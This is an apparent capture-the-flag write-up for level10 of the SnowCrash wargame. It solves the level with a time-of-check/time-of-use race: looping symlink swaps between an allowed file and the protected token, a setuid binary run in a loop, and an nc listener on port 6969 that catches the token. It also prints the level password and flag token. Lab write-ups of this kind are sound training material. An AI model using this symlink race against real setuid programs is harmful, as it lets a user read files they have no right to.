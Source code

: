 ## level10
```
flag09@SnowCrash:~$ su level10
Password: s5cAJpM8ev6XHw998pRWG728z
level10@SnowCrash:~$
```
```
level10@SnowCrash:~$ ll
total 28
dr-xr-x---+ 1 level10 level10   140 Mar  6  2016 ./
d--x--x--x  1 root    users     340 Aug 30  2015 ../
-r-x------  1 level10 level10   220 Apr  3  2012 .bash_logout*
-r-x------  1 level10 level10  3518 Aug 30  2015 .bashrc*
-rwsr-sr-x+ 1 flag10  level10 10817 Mar  5  2016 level10*
-r-x------  1 level10 level10   675 Apr  3  2012 .profile*
-rw-------  1 flag10  flag10     26 Mar  5  2016 token
```
```
level10@SnowCrash:~$ ./level10 
./level10 file host
        sends file to host if you have access to it
level10@SnowCrash:~$ cat token 
cat: token: Permission denied
```
```
level10@SnowCrash:~$ ./level10 .bashrc 0.0.0.0
Connecting to 0.0.0.0:6969 .. Unable to connect to host 0.0.0.0
```
i use `tmux` for multi windows  
`0.0.0.0:6969` we will be listen this port with  help `nc`
```
nc -l 6969
```
create file for test connection 
```
echo Hello! > /tmp/test
./level10 /tmp/test 0.0.0.0
```
```
level10@SnowCrash:~$ nc -l 6969
.*( )*.
hello!
```
create link for `token`
```
level10@SnowCrash:~$ ./level10 /tmp/link 0.0.0.0
You don't have access to /tmp/link
```
open three windows in `tmux`
```
level10@SnowCrash:~$ while true; do ln -fs ~/level10 /tmp/exploit; ln -fs ~/token /tmp/exploit; done
```
```
nc -l 6969
```
```
level10@SnowCrash:~$ while true; do ./level10 /tmp/exploit 0.0.0.0; done
```
```
level10@SnowCrash:~$ nc -l 6969
.*( )*.
woupa2yuojeeaaed06riuj63c
```
```
level10@SnowCrash:~$ su flag10
Password: woupa2yuojeeaaed06riuj63c
Don't forget to launch getflag !
```
```
flag10@SnowCrash:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
```
